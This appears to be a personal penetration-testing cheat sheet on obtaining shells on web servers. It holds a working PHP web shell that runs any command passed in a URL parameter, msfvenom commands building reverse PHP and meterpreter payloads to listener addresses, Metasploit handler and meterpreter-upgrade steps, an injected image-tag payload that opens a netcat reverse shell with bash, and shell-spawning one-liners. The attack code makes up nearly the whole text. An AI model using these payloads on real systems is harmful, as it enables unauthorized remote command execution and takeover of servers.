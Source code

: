 #### Shell

First see if we can uplaod any file to the server.

- asp shell to windows server.
- jsp shell on apache topgate
- php shell on classic apache server.

`https://rosettacode.org/wiki/Execute_a_system_command`
`pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`
Note: Need to run nc listener in the sysem to run the shell.

Simple shell code example shell.php:

```php
<html>
<?php

echo "<form method=GET><input type=text name=cmd><input type=submit value=ok></$=ok></form>";
system($_GET["cmd"]);

?>
</html>
```

Shells code are available in internet.
* * *

#### msfvenom
`msfvenom --list payloads | grep php | grep reverse` use this for seaching.

`msfvenom -p php/reverse_php lhost=192.168.0.58 lport=443 -o r443.php` 
or
`msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=172.16.64.2 lport=59919 -f elf -o meter`

Then move r443.php to webserver and visit the webpage.
Before that `nc -lvp 443`
And request the r443.php from the webserver.

We can also use metasploit listener.
`use exploit/multi/handler`
`set payload php/reverse_php` -same as before.
`set lhost=192.168.0.58`
`set lport=443`
`run`
To upgrade to meterpreter shell:
switch the session to background.
`use post/multi/manage/shell_to_meterpreter`
set the options.

* * *

`<img src=http://10.10.14.6/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.6'$IFS'1234')>` and do ncat listener to get reverse shell.


spawning: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
`execute -f /bin/sh -i -c`
